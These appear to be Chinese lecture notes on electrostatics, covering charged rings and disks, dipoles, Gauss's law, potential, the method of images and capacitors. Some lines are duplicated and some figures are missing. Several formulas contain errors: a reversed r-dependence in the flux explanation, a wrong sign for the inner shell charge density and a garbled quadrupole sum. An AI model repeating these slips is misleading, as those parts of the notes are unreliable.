推导： $$ \lambda = \dfrac{q}{2\pi R}$$ $$ dF = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0dq}{r^2} = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rd\Phi}{(z^2+R^2)} $$ $$ \begin{aligned} F_z &= \int dF_z = \int dF\cos\theta \\ &= \int \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rd\Phi}{z^2+R^2} \dfrac{z}{\sqrt{z^2+R^2}}\\ &= \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rz}{(z^2+R^2)^{3/2}} \int_0^{2\pi} d\Phi \\ &= \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0qz}{(z^2+R^2)^{3/2}} \\ \end{aligned} $$
从而推得 $$ \overrightarrow{F} = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0qz}{(z^2+R^2)^{3/2}} \hat{k}$$
当\(z >> R\)时，有 $$ \overrightarrow{F} \approx \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0q}{z^2} \hat{k}$$
A Disk of Charge¶

推导： $$ \sigma = \dfrac{q}{\pi R^2} $$ $$ dq = \sigma dA = \sigma(2\pi \omega d\omega) = 2\pi\sigma\omega d\omega $$ $$ dF_z = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0(2\pi\sigma\omega d\omega)z}{(z^2+\omega^2)^{3/2}} $$
电场¶
Coulomb's Law: $$ \overrightarrow{F} = \dfrac{1}{4\pi\epsilon_0} \dfrac{Q q_0}{r^2} \hat{r} $$ $$ \overrightarrow{E} = \lim_{q_0 \rightarrow 0} \dfrac{\overrightarrow{F}}{q_0} $$
Dipole（电偶极矩）¶
定义：两个相反等量电荷之间的距离乘以电荷量，\(\overrightarrow{p} = q\overrightarrow{d}\)
flowchart LR
A(( -q )) --> B(( +q ))
坐标轴上的电偶极矩
 $$ E_x(x,0) = 0 $$
$$ E_x(x,0) = 0 $$
又有 \(\sin\theta = \dfrac{a}{r}\), \(r^2 = x^2+a^2\), 从而 $$ E_y(x,0) = -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{(x^2+a^2)^{3/2}} $$
 $$ E_x(0,y) =0 $$
$$ E_x(0,y) =0 $$
我们可以对以上两种情况进行总结：
沿x轴： $$ E_x(r,0) = 0 $$ $$ E_y(r,0) = -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{(r^2+a^2)^{3/2}} $$
当 $ r >> a$ 时， $$ E_y(r,0) \approx -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{r^3} $$
沿y轴： $$ E_x(0,r) = 0 $$ $$ E_y(0,r) = \dfrac{Q}{4\pi\epsilon_0} \dfrac{4ar}{r^4 \left( 1-\dfrac{a^2}{r^2} \right)^2} $$
当 \(r >> a\) 时， $$ E_y(0,r) \approx 4\dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{r^3} $$
综上，我们可以得到 $$ E \propto \dfrac{1}{r^3} $$
无限线电荷¶

Therefore, $$ dE = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda \cos^2 \theta dx}{r^2} $$
又因为 $$ x = r\tan \theta $$ $$ dx = r\sec^2 \theta d\theta $$ 于是最终得到 $$ dE = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} $$
Components: $$ dE_x = dE \sin\theta = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} \sin\theta $$ $$ dE_y = dE \cos\theta = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} \cos\theta $$ $$ E_x = \int dE_x = -\dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda}{r} \int_{-\pi /2}^{{+\pi /2}} \sin\theta d\theta = 0 $$ $$ E_y = \int dE_y = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda}{r} \int_{-\pi /2}^{{+\pi /2}} \cos\theta d\theta = \dfrac{\lambda}{2\pi\epsilon_0 r} $$
电场强度的变化
- Dipole: \(E \propto \dfrac{1}{r^3}\)
- Point Charge: \(E \propto \dfrac{1}{r^2}\)
- Infinite Line of Charge: $E \propto \dfrac{1}{r} $
均匀环电荷¶
 $$ dE = \dfrac{\lambda ds}{4\pi\epsilon_0} = \dfrac{\lambda ds}{4\pi\epsilon_0(z^2+R^2)} $$
$$ dE = \dfrac{\lambda ds}{4\pi\epsilon_0} = \dfrac{\lambda ds}{4\pi\epsilon_0(z^2+R^2)} $$
if \(z >> R\), then \(E_z \approx \dfrac{q}{4\pi\epsilon_0z^2}\)
if \(z \rightarrow 0\), then \(E_z \approx 0\)
均匀圆盘电荷¶
 $$ dq = 2\pi\omega·d\omega·\sigma $$
$$ dq = 2\pi\omega·d\omega·\sigma $$
-
if \(R >> z\)， \(\dfrac{1}{\sqrt{1+\dfrac{R^2}{z^2}}} \rightarrow 0\), so \(E = \dfrac{\sigma}{2\epsilon}\) (Infinite sheet)
-
if \(z >> R\)， \(\dfrac{1}{\sqrt{1+\dfrac{R^2}{z^2}}} = 1 - \dfrac{1}{2} \dfrac{R^2}{z^2} + \dfrac{3}{8} \dfrac{R^4}{z^4} - \cdots\)
-
so $E = \dfrac{\sigma}{2\epsilon} \left( 1- \dfrac{1}{2} \dfrac{R^2}{z^2} + \dfrac{3}{8} \dfrac{R^4}{z^4} - \cdots \right) \propto \dfrac{\sigma}{2\epsilon} \dfrac{1}{2} \dfrac{R^2}{z^2} = \dfrac{q}{4\pi\epsilon_0 z^2} $
Dipole(电偶极矩)¶


电偶极矩矢量：$ \overrightarrow{p} = q \overrightarrow{d} $ $$ \overrightarrow{\tau} = \overrightarrow{p} \times \overrightarrow{E} $$
Gauss's Law(高斯定理)¶
通量¶
Flux，流量，通量: \(\Phi = \vec{E} \cdot \overrightarrow{A} = EA\cos\theta\)
速度场的通量


 对于任意的一个闭合曲面，有
对于任意的一个闭合曲面，有
If there were within the volume no sources or sink of fluid.
如果在体积内没有流体的源头或汇集点，那么 $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} = 0 $$
If there were a source (源) within the volume: $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} > 0 $$
If there were a sink (汇) of fluid: $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} < 0 $$
电通量¶
Define: electric flux \(\Phi_E\) through the closed surface \(A\) $$ \Phi = \sum \overrightarrow{E} \cdot \overrightarrow{A} = \oiint \overrightarrow{E} \cdot d\overrightarrow{A} $$
- 规定电通量“向外”为正，“向内”为负
- 对于一个开放曲面（不闭合），它的方向不确定，因此电通量的符号也不确定
例题
 Imagine a cube of side a positioned in a region of constant electric field as shown
Imagine a cube of side a positioned in a region of constant electric field as shown
Which of the following statements about the net electric flux \(\Phi_E\) through the surface of this cube is true?
- A. \(\Phi_E = 0\)
- B. \(Phi_E \propto 2a^2\)
- C. \(\Phi_E \propto 6a^2\)
 Consider 2 spheres (of radius R and 2R) drawn around a single charge as shown.
Consider 2 spheres (of radius R and 2R) drawn around a single charge as shown.
Which of the following statements about the net electric flux through the 2 surfaces (\(\Phi_{2R}\) and \(\Phi_R\)) is true?
- \(\Phi_R < \Phi_{2R}\)
- \(\Phi_R = \Phi_{2R}\)
- \(\Phi_R > \Phi_{2R}\)
解析：首先观察图片可以知道通过两个球面的电力线总数是相等的，因此电通量也是相等的。
具体来说，根据 $ \Phi = \oiint \overrightarrow{E} \cdot d\overrightarrow{A} $，我们知道 \(\overrightarrow{E} \propto r^2\) 和 \(\overrightarrow{A} \propto \dfrac{1}{r^2}\)，因此 \(r^2\) 和 \(\dfrac{1}{r^2}\)就抵消了，所以在这里电通量是一个与距离无关的定值。
电场的高斯定理¶
通过一个闭合曲面的总电通量与被这个曲面所包围的电荷量成正比
Example

在利用高斯公式求解\(E\)时，我们需要选择一个恰当的闭合曲面，使得积分的处理较为简单，即尽可能地寻找一个足够“对称”的曲面。
-
方向：我们可以使得闭合曲面与电场的方向垂直或平行
- 如果 \(\overrightarrow{E} \parallel d\overrightarrow{A}\)，那么 \(\overrightarrow{E} \cdot d\overrightarrow{A} = EdA\)
- 如果 \(\overrightarrow{E} \perp d\overrightarrow{A}\)，那么 \(\overrightarrow{E} \cdot d\overrightarrow{A} = 0\)
-
大小：当电场方向与平面垂直时，应当使得平面的任意点处电场大小\(E\)相等
这样一来就可以得到 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \oiint EdA = E \oiint dA = \dfrac{q_{enclosed}}{\epsilon_0} $$
这样一来就可以通过\(q_{enclosed}\)来求解\(E\)，或反之通过\(E\)来求解\(q_{enclosed}\)
我们也可以通过高斯公式来推导出库仑定律： $$ \begin{aligned} \oiint \overrightarrow{E} \cdot d\overrightarrow{A} &= \dfrac{Q}{\epsilon_0} \\ E \oiint dA &= \dfrac{Q}{\epsilon_0} \\ E \cdot 4\pi r^2 &= \dfrac{Q}{\epsilon_0} \\ E &= \dfrac{1}{4\pi\epsilon_0} \dfrac{Q}{r^2} \end{aligned}$$
高斯定理的应用¶
均匀带电球体¶
 求由一个半径为\(a\)，电荷密度为 \(\rho (C/m^3)\) 的均匀带电球体所产生的电场强度
求由一个半径为\(a\)，电荷密度为 \(\rho (C/m^3)\) 的均匀带电球体所产生的电场强度
-
在球体外\((r > a)\)，由高斯定理可知 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi r^2 E = \dfrac{q}{\epsilon_0} $$ 并且 $$ q = \dfrac{4}{3}\pi a^3 \rho $$
可以得到 $$ E = \dfrac{\rho a^3}{3\epsilon_0 r^2} $$
事实上利用 $E = \dfrac{1}{4\pi \epsilon_0} \dfrac{q}{r^2} $ 也可以得到相同的结果
-
在球体内\((r < a)\)，同样也由高斯定理，但此处包裹的电荷大小不再是由\(a\)决定 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi r^2 E = \dfrac{q}{\epsilon_0} $$ $$ q = \dfrac{4}{3}\pi r^3 \rho $$
可以得到 $$ E = \dfrac{\rho}{3\epsilon_0} r $$
根据以上分析，最终得到

导体中的高斯定理¶
我们知道导体内部的电场大小始终为零，再根据高斯定理可以推出其内部的电荷大小为零，说明导体的电荷只分布在它的表面上。


想要求一个带电导体产生的电场，我们可以在其外表面处取一个极小的高斯面，这样可以认为被高斯面包裹的导体表面上的电荷是均匀分布的（取足够小的高斯面后可以就认为高斯面内的导体表面是平的，从而忽略尖端带电效应）。
并且因为导体内部电场强度为0，由对称性也可以知道沿高斯面的侧面方向的电场强度之和也为0。 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \sigma \cdot \Delta A $$ $$ \epsilon_0 E \Delta A + 0 + 0 = \sigma \cdot \Delta A $$
无限线电荷¶
由对称性可知只有在垂直于线电荷的方向上有电场强度，因此我们可以取一个半径为\(r\)，长度为\(h\)的圆柱形高斯面，这样可以得到
 应用高斯定理
应用高斯定理
- 在两端：\(\overrightarrow{E} \cdot d\overrightarrow{A} = 0\)
- 在侧面： $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2\pi rhE $$ $$ q = \lambda h $$ 得到 $$ E = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
于是我们就得到了和先前使用库仑定律推导相同的结论。
Example
 密度为\(\lambda\)的无限长线电荷被放在空心圆柱的中轴线上，空心圆柱的内径为\(r_i = a\), 外径为\(r_o = b\)，求空心圆柱外表面的电荷密度 \(\sigma _o(C/m^2)\) 是多少？
密度为\(\lambda\)的无限长线电荷被放在空心圆柱的中轴线上，空心圆柱的内径为\(r_i = a\), 外径为\(r_o = b\)，求空心圆柱外表面的电荷密度 \(\sigma _o(C/m^2)\) 是多少？
- A. \(\sigma_o = -\dfrac{\lambda}{2\pi b}\)
- B. \(\sigma_o = 0\)
- C. \(\sigma_o = +\dfrac{\lambda}{2\pi b}\)
解析：我们可以构造一个仅包围外表面的高斯面，其中一侧在圆柱外部，另一侧在空心圆柱里，那么就有 \(E_{outside} = \dfrac{\lambda}{2\pi \epsilon_0 r}\) 与 \(E_{conductor} = 0\)，于是 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = (2\pi rL)E_{outside} + (2\pi rL)E_{conductor} = \dfrac{q}{\epsilon_0} = \dfrac{\sigma_o 2\pi bL}{\epsilon_0} $$
又根据 $$ E_{outside} = \dfrac{\lambda}{2\pi \epsilon_0 r} = \dfrac{\sigma_o b}{\epsilon_0 r} $$ 可以得到 $$ \sigma_o = \dfrac{\lambda}{2\pi b} $$
无限面电荷¶
显然的，我们在对无限面电荷构造高斯平面时，应当选择构造与这个平面平行且容易计算面积的形状，常用的有与此平面垂直的圆柱体或一个立方体
 由对称性可以知道只有与平面垂直的方向有电场，因此可很平凡地构造一个高斯面。
由对称性可以知道只有与平面垂直的方向有电场，因此可很平凡地构造一个高斯面。
- 在侧面：$ \overrightarrow{E} \cdot d\overrightarrow{A} = 0 $
- 在两端：$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2AE$$
- 所包裹住的电荷量大小：\(\sigma A\)
因此由高斯定理 $$ E = \dfrac{\sigma}{2\epsilon_0} $$
结论：一个无限面电荷产生的电场强度是一个常量。
一些其他例题
 两个带相反电荷的无限平面：
两个带相反电荷的无限平面：
可以构造两种高斯面，
- 跨越两个平面的高斯圆柱：所包裹的总电荷为0，其两侧的电场强度都是0（相互抵消了）
-
只跨过一个平面的高斯圆柱：所包裹的总电荷为0，在外侧的电场强度是0，在两平面之间的电场强度不为0
电荷为\(Q = \sigma A\) $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = AE_{outside} + AE_{inside} $$
得到 $$ E = \dfrac{\sigma}{\epsilon_0} $$
如何在作业题中运用高斯定理
牢记高斯公式在有关题目中一定是有效的 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = q_{enclosed} $$
如何运用高斯定理？
- 我们可以利用球面、圆柱体、平面的对称性来解决许多问题
- 如果我们知道了电荷量，就可以计算电场大小；如果我们知道了电场大小，就可以计算电荷量
半径为\(r\)的球面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi \epsilon_0 r^2 E = q $$ $$ E = \dfrac{1}{4\pi \epsilon_0} \dfrac{q}{r^2} $$
半径为\(r\)的圆柱面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \epsilon_0 2\pi rLE = q $$ $$ E = \dfrac{q}{2\pi \epsilon_0 r} $$
面积为\(A\)的平面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \epsilon_0 2AE = q $$ $$ E = \dfrac{\sigma}{2 \epsilon_0} $$
两道例题
 如图，一个实心导体球被一个薄导体球面包裹，球携带的电荷为\(Q_1\)，球壳携带的电荷为\(Q_2\)，其中\(Q_2 = -3Q_1\)
如图，一个实心导体球被一个薄导体球面包裹，球携带的电荷为\(Q_1\)，球壳携带的电荷为\(Q_2\)，其中\(Q_2 = -3Q_1\)
- A. 电荷在球上如何分布？
- B. 电荷在球壳上如何分布？
- C. 当\(r < R_1\), 在\(R_1\)和\(R_2\)之间，\(r > R_2\)时，电场大小分别是多少？
- D. 使用导线将两者连接之后，电荷将会如何变化？
A. 电荷分布在球的外表面上 $ \sigma = \dfrac{Q_1}{4\pi R_1^2} $
B. 将球壳和球视为一个大的导体，由于导体内部的总电荷为0，那么球壳内表面上的电荷一定为\(-Q_1\)，外表面上的电荷为\(-2Q_1\) $$ \sigma_{inner} = \dfrac{Q_1}{4\pi R_2^2} $$ $$ \sigma_{outer} = \dfrac{Q_1 + Q_2}{4\pi R_2^2} = \dfrac{-2Q_1}{4\pi R_2^2}$$
C. \(r < R_1\)时：\(\overrightarrow{E} = 0\)
在\(R_1\)和\(R_2\)之间：被包裹的电荷量为\(Q_1\) $$ \overrightarrow{E} = \dfrac{1}{4\pi \epsilon_0} \dfrac{Q_1}{r^2} \hat{r} $$
\(r > R_2\)时：包裹的电荷量为 \(Q_1 + Q_2 = -2Q_1\) $$ \overrightarrow{E} = \dfrac{1}{4\pi \epsilon_0} \dfrac{Q_1 + Q_2}{r^2} \hat{r} = \overrightarrow{E} = -\dfrac{1}{4\pi \epsilon_0} \dfrac{2Q_1}{r^2} \hat{r} $$
D：达到电荷平衡后，球壳内表面以及实心球上不再有电荷，所有电荷都在球壳外表面上
对于\(r < R_2\)，\(\overrightarrow{E} = 0\)
对于\(r > R_2\)，$\overrightarrow{E} = -\dfrac{1}{4\pi \epsilon_0} \dfrac{2Q_1}{r^2} \hat{r} $

一条无限长的线电荷从半径为\(R\)的带电圆柱面的中心穿过，仅考虑长度为\(h\)的部分，线电荷密度为\(\lambda\)，圆柱面具有的的总面电荷密度为\(\sigma_{total}\)。
- A. 电荷在圆柱面上如何分布？考虑\(\sigma_{inner}\)与\(\sigma_{outer}\)
- B. \(r < R\)时电场强度是多少？
- C. \(r > R\)时电场强度是多少？
 A. 将整个圆柱面以及线电荷视为一个导体，则圆柱面内表面和线电荷的总电荷为0.
A. 将整个圆柱面以及线电荷视为一个导体，则圆柱面内表面和线电荷的总电荷为0.
长度为\(h\)的这部分线电荷为\(\lambda h\)，故内表面产生的感应电荷为\(Q_{inner} = -\lambda h\)，于是 $$ \sigma_{inner} = \dfrac{Q_{inner}}{2\pi Rh} = -\dfrac{\lambda}{2\pi R} $$
所以外表面电荷密度为 $$ \sigma_{outer} = \sigma_{total} - \sigma_{inner} = \sigma_{total} + \dfrac{\lambda}{2\pi R} $$
 B. 直接利用高斯定理即可得到
$$ 2\pi rhE_r = \dfrac{q_{enclosed}}{\epsilon_0} = \dfrac{\lambda h}{\epsilon_0} $$
$$ E_r = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
B. 直接利用高斯定理即可得到
$$ 2\pi rhE_r = \dfrac{q_{enclosed}}{\epsilon_0} = \dfrac{\lambda h}{\epsilon_0} $$
$$ E_r = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
C. 也是运用高斯定理，只不过还要加上\(\sigma_{total}\)的部分

于是 $$ E_r = \dfrac{\sigma_{total}}{\epsilon_0} \dfrac{R}{r} + \dfrac{\lambda}{2\pi \epsilon_0 r} $$
电势能和电势¶
电势能¶
静电力是保守力，即静电力的做功大小与路径无关，仅取决于初、末位置，类比于重力以及重力势能，我们也可以定义电势能。
考虑一个带电粒子 \(q\) 在电场 \(\overrightarrow{E}\) 中运动，假设它从位置 \(a\) 移动到位置 \(b\)，那么它的电势能变化为 $$ \Delta U = U_b - U_a = -\int_a^b \overrightarrow{F} \cdot d\overrightarrow{l} = -q \int_a^b \overrightarrow{E} \cdot d\overrightarrow{l} $$ 这里的 \(\int_a^b \overrightarrow{F} \cdot d\overrightarrow{l}\) 仅取决于初、末位置 \(a\) 和 \(b\)，而与路径无关。
- 当电场力做正功时，电势能减小，反之电势能增加。
- 电势能是一个标量，当带电粒子处于由多个电场叠加得到的电场中时，它总的电势能等于它在每个电场的电势能的标量和。
- 带电粒子在电场中某一点的电势能 \(U(x,y,z)\) 等于将这个粒子从电势能为零的点移到点 \((x,y,z)\) 所做的功。通常我们将电势能为零的点设为无穷远处。
静电场的环路定律¶
显然的，静电场沿着一个闭合回路的积分为零，即 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = 0 $$
根据 Stokes 公式，第二类曲线积分等于这条曲线所包围的面积的法向量积分，即 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = \iint (\nabla \times \overrightarrow{E}) \cdot d\overrightarrow{A} = 0 $$ 因此我们可以得到 $$ \nabla \times \overrightarrow{E} = 0 $$
Note
事实上，利用数分2中学到的 Guass 公式，我们可以得到
因此我们可以得到 $$ \nabla \cdot \overrightarrow{E} = \dfrac{\rho}{\epsilon_0} $$
电势¶
电势是电场中某一个点的物理量，它是一个标量，定义为单位正电荷在该点的电势能。即电势 \(V\) 可以表示为 $$ V = \dfrac{U}{q} $$ 其中 \(U\) 是电势能，\(q\) 是单位正电荷的电荷量。
与电势能相同，电势也是一个标量。我们通常也将无穷远处的电势设为零。
根据 $$ W_{AB} = \int_A^B \overrightarrow{F}_{extern} \cdot d\overrightarrow{l} = -\int_A^B \overrightarrow{F}_e \cdot d\overrightarrow{l} = -\int_A^B q_0 \overrightarrow{E} \cdot d\overrightarrow{l} $$
我们在求电势差时可以使用以下公式: $$ V_B - V_A \equiv \dfrac{W_{AB}}{q_0} = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$
Note
我们在计算空间中某一点的电势时，可以将其视为从该点到无穷远处对电场所做的积分，即 $$ V = \int_a^{\infty} \overrightarrow{E} \cdot d\overrightarrow{l} $$ 因为无穷远处电势为零，这一点的电势相当于从无穷远处到该点电场所做的功的相反数。
根据上述公式，我们可以在点电荷产生的电场求出电势差
 \(\begin{aligned}
V_b - V_a &= -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = -\int_{r_a}^{r_b} \dfrac{q}{4\pi \epsilon_0 r^2} dr\\\\
&= \dfrac{q}{4\pi \epsilon_0}\left( \dfrac{1}{r_b} - \dfrac{1}{r_a} \right)
\end{aligned}\)
\(\begin{aligned}
V_b - V_a &= -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = -\int_{r_a}^{r_b} \dfrac{q}{4\pi \epsilon_0 r^2} dr\\\\
&= \dfrac{q}{4\pi \epsilon_0}\left( \dfrac{1}{r_b} - \dfrac{1}{r_a} \right)
\end{aligned}\)
此时我们令 \(r_a = \infty\)，\(V_a = 0\)，可以得到点电荷在空间中产生的电势 $$ V = \dfrac{q}{4\pi \epsilon_0 r} $$
两个典型的例子

当 \(r >> a\) 时，我们有 \(r_2 - r_1 \approx 2a\cos\theta\) 以及 \(r_1 r_2 \approx r^2\)
此外我们还知道 \(p = 2aq\)，\(\overrightarrow{p} = q \overrightarrow{d}\)，\(d = 2a\)，所以我们可以得到 $$ V( r ) = \dfrac{1}{4\pi \epsilon_0} \dfrac{2aq \cos\theta}{r^2} = \dfrac{\overrightarrow{p} \cdot \hat{r}}{4\pi \epsilon_0 r^2} $$
- \(\theta = 90^{\circ}\)时，\(V = 0\)
- \(\theta = 0\)时，\(V_{max} > 0\)
- \(\theta = 180^{\circ}\)时，\(V_{max} < 0\)
 \(\begin{aligned}
V( r ) &= \sum_i V_i(r_i) \\\\
&= \dfrac{1}{4\pi \epsilon_0} \left( \dfrac{q}{r-d} + \dfrac{-2q}{r} \dfrac{q}{r+d} \right) \\\\
&= \dfrac{1}{4\pi \epsilon_0} \dfrac{2qd^2}{r (r^2 - d^2)} \\\\
&= \dfrac{1}{4\pi \epsilon_0} \dfrac{2qd^2}{r^3 (1 - d^2 / r^2)}
\end{aligned}\)
\(\begin{aligned}
V( r ) &= \sum_i V_i(r_i) \\\\
&= \dfrac{1}{4\pi \epsilon_0} \left( \dfrac{q}{r-d} + \dfrac{-2q}{r} \dfrac{q}{r+d} \right) \\\\
&= \dfrac{1}{4\pi \epsilon_0} \dfrac{2qd^2}{r (r^2 - d^2)} \\\\
&= \dfrac{1}{4\pi \epsilon_0} \dfrac{2qd^2}{r^3 (1 - d^2 / r^2)}
\end{aligned}\)
对于 \(d << r\)，即 \(d^2 / r^2 << 1\)，有 $$ V( r ) = \dfrac{2qd^2}{4\pi \epsilon_0 r^3} = \dfrac{Q}{4\pi \epsilon_0 r^3}$$ 因为在电四偶极矩中 \(Q = 2qd^2\)
Note
- 对于点电荷，\(V \propto \dfrac{1}{r}\)
- 对于电偶极矩，\(V \propto \dfrac{1}{r^2}\)
- 对于电四偶极矩，\(V \propto \dfrac{1}{r^3}\)
常见模型的电势能和电势¶
带电球壳的电势能和电势¶
由高斯定理可以直接得到
- \(E = \dfrac{q}{4\pi \epsilon_0 r^2}\)，\((r \geqslant R)\)
- \(E = 0\)，\((r < R)\)
可以求得电势

电势能为
圆环与圆盘的电势¶


等势面¶
- 在等势面上移动时电场力不做功
- 带电导体的表面是一个等势面（假如不是等势面，那么电子就会自由移动，最终达到平衡状态时就得到了一个等势面）
如果用一个导体球壳把一个点电荷包裹起来，点电荷不在球心的位置，那么
- 导体内表面产生的感应电荷分布不均匀，距离电荷越近的地方感应电荷越密集
- 导体外表面的电荷在球壳上均匀分布
- 导体内、外表面的电荷大小都与点电荷的大小相同，但是符号一个相同、一个不同
尖端放电

由于导体表面是一个等势面，而曲率越大的地方电荷面密度就越大，当电势足够大时就会电离空气，也就是产生尖端放电现象
通过电势求电场¶
如果我们知道了空间任意一处的电场，就可以通过积分来求出任意一点的电势；类似地，假如我们知道了空间任意一处的电势，我们就可以通过微分来求出相应位置的电场。
也就是说，根据 $$ \Delta V = V_b - V_A = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$
就有 $ dV = -\overrightarrow{E} \cdot d\overrightarrow{l} $
从而 $ E = -(\dfrac{dV}{dl})_{max} $
我们用电势梯度描述电场中电势沿某一方向的变化率，而 \(\overrightarrow{E}\) 沿着电势下降最快的方向，即电场沿着电势梯度最大的方向，或者说，电场是电势的负梯度。 $$ \overrightarrow{E} = -\overrightarrow{\nabla} V $$
- 在直角坐标系中，$$ \overrightarrow{\nabla} V = \dfrac{\partial V}{\partial x} \hat{x} + \dfrac{\partial V}{\partial y} \hat{y} + \dfrac{\partial V}{\partial z} \hat{z} $$
- 在球坐标系中，$$ \overrightarrow{\nabla} V = \dfrac{\partial V}{\partial r} \hat{r} + \dfrac{1}{r} \dfrac{\partial V}{\partial \theta} \hat{\theta} + \dfrac{1}{r \sin \theta} \dfrac{\partial V}{\partial \phi} \hat{\phi} $$
镜像法求电势

在求一个靠近导体的电荷所产生的电势与电场时，我们可以考虑在对称的位置构造一个大小相同、正负相反的虚拟电荷。
这样我们就构造出一个电偶极矩，再通过电偶极矩求电势的方法就可以求出某一点处的电势或电场大小了。
电势与电场的关系
如果我们知道了任意位置的电场\(E\)，我们就可以求出任意位置的电势\(V\) $$ V_B - V_A = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$ $$ V_P = -\int_P^{\infty} \overrightarrow{E} \cdot d\overrightarrow{l} = \int_{\infty}^P \overrightarrow{E} \cdot d\overrightarrow{l} $$
反之，如果我们知道了任意位置的电势\(V\)，我们就可以求出任意位置的电场\(E\)。 $$ \overrightarrow{E} = -\overrightarrow{\nabla} V $$
电容与电介质¶
电容器由分离的两个导体组成，这两个导体带有大小相同、符号相反的电荷 \(+q\) 与 \(-q\)。
电容的定义，Capacitance
电容器的电容定义为：电容器上其中一个导体所含有的的电荷相对于两导体间电势差的变化率，即 $$ C = \dfrac{q}{\Delta V} $$ 其中 \(q\) 是电容器带有的电荷量，\(V\) 是电容器的两个导体间的电势差。
- 电容是电容器所具有的一个固有的性质，与带电量与电势差大小无关，仅与电容器的材料、大小、形状等有关
常见模型的电容¶
平行板电容器¶
 $$ E = \dfrac{\sigma}{\epsilon_0} = \dfrac{q}{A \epsilon_0} $$
$$ \Delta V = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = \dfrac{q}{A \epsilon_0} d $$
$$ C = \dfrac{q}{\Delta V} = \dfrac{\epsilon_0 A}{d} $$
$$ E = \dfrac{\sigma}{\epsilon_0} = \dfrac{q}{A \epsilon_0} $$
$$ \Delta V = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = \dfrac{q}{A \epsilon_0} d $$
$$ C = \dfrac{q}{\Delta V} = \dfrac{\epsilon_0 A}{d} $$
因此平行板电容器的电容与平行板的面积成正比，与板之间的距离成反比。
圆柱形电容器¶
 首先用高斯定理计算出电场
$$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2 \pi rLE = \dfrac{Q}{\epsilon_0} $$
$$ \Rightarrow E = \dfrac{Q}{2 \pi \epsilon_0 Lr} $$
首先用高斯定理计算出电场
$$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2 \pi rLE = \dfrac{Q}{\epsilon_0} $$
$$ \Rightarrow E = \dfrac{Q}{2 \pi \epsilon_0 Lr} $$
再根据电势与电场的关系
因此，对于单位长度的圆柱形电容器，其电容为 $$ C' = \dfrac{C}{L} = \dfrac{2 \pi \epsilon_0}{\ln \dfrac{b}{a}} $$
球形电容器¶
 $$ \overrightarrow{E} = \dfrac{q \hat{r}}{4\pi \epsilon_0 r^2}, a<r<b $$
$$ \overrightarrow{E} = \dfrac{q \hat{r}}{4\pi \epsilon_0 r^2}, a<r<b $$
Note
特别的，将球形电容器的外壳移至无穷远处，即 \(b \to \infty\) 时，有 $$ C = 4\pi \epsilon_0 a $$ 这也说明一个单独的带电导体也可以视为一个电容器（电容器的另一端在无穷远处）。
电容器的并联与串联¶
Note
并联电容器的电容等于各个电容器的电容之和，串联电容器的电容的倒数等于各个电容器电容的倒数之和，这恰与电阻的串联和并联相反。

两个电容并联时，电势差相同，它们等价于一个电容更大的电容器 $$ V = \dfrac{Q_1}{C_1} = \dfrac{Q_2}{C_2} $$ $$ \Rightarrow Q = Q_1 + Q_2 = C_1 V + C_2 V = (C_1 + C_2)V $$

两个电容串联时，它们带有的电荷量相同 $$ Q = Q_1 = Q_2 = C_1 V_1 = C_2 V_2 $$ $$ V = V_1 + V_2 = \dfrac{Q}{C_1} + \dfrac{Q}{C_2} = Q\left( \dfrac{1}{C_1} + \dfrac{1}{C_2} \right) $$
电容器的能量¶
考虑两个不带电的平行板导体，我们不断地将其中一个平行板上的电子移到另个平行板上，最终就得到了一个平行板电容器，这过程中所做的功就等于让电荷克服电场力所做的功，也即电容器所具有的能量。
